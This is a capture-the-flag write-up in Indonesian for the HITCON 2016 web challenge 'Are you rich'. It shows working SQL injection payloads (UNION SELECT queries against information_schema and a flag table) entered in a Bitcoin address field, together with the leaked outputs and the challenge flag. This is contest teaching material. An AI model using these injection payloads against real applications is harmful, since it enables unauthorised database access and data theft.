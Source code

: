 ```yaml
---
layout: post
title: "Hitcon 2016 : Are you rich"
description: "Hitcon 2016 : Are you rich"
headline: 
modified: 2016-10-10
date: 2016-10-10
category: CTF
tags: [Hitcon,Web Exploitation]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Are you rich? Buy the flag!
http://52.197.184.164/are_you_rich/

ps. You should NOT pay anything for this challenge

Some error messages which is non-related to challenge have been removed


### Solution : 

Kita dapat web di mana kita bisa lakukan generate bitcion address dan membeli flag. 
Untuk membeli flag kita harus mempunyai 5 BTC dalah address tersebut (Seharusnya),
Dan jika kita menggunakan Address BTC(>=26 karakter) yang bukan di generate dari web tersebut
maka akan muncul error `This address not issued by us` dan ketika kita menambah kan kutip 
pada address BTC nya maka akan muncul `Error when searching in the issue log`.

Dari situ kita asumsikan bahwa address BTC yang sudah di generate itu di simpan ke database
dan kemudian di cari lagi ketika kita akan membeli flag. 

Ternyata memang SQL injection 

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select @@version) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address '5.7.15-0ubuntu0.16.04.1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select table_name from information_schema.tables where table_schema != 'information_schema' limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'flag1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select flag from flag1 limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Dan di dapatkan flag nya `hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}` , sayangnya kita tidak temukan flag Are you rich 2 :(


